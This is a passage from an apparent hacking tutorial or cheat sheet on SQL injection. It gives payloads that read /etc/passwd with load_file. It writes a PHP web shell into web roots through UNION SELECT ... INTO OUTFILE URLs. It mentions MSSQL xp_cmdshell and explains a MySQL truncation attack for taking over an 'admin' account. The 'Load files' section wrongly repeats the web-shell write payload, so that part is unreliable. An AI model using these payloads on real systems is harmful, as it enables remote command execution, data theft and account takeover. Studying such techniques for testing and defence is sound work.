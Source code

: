 If it lods for four seconds exta we know that the database is processing our sleep\(\) command.

### Get shell from sql-injection

The good part about mysql from a hacker-perspective is that you can actaully use slq to write files to the system. The will let us write a backdoor to the system that we can use.

#### Load files

UNION SELECT 1, load\_file\(/etc/passwd\) \#

```
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

#### Write files

```
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

#### MSSQL - xp\_cmdshell

You can run commands straight from the sql-query in MSSQL.

## Truncating Mysql Vulerability

Basically this happens when you don't validate the length of user input.  
Two things are needed for it to work:

* Mysql does not make comparisons in binary mode. This means that "admin" and "admin        " are the same.

* If the username column in the database has a character-limit the rest of the characters are truncated, that is removed. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

With this information we can create a new admin-user and have our own password set to it. So if the max-length is 20 characters we can insert the following string

```
admin               removed
```

This means that the "removed" part will be removed/truncated/deleted. And the trailing spaces will be removed upon insert in the database. So it will effectively be inserted as "admin".

## References

[http://resources.infosecinstitute.com/sql-truncation-attack/](http://resources.infosecinstitute.com/sql-truncation-attack/)  
[http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)  
[http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/](http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)

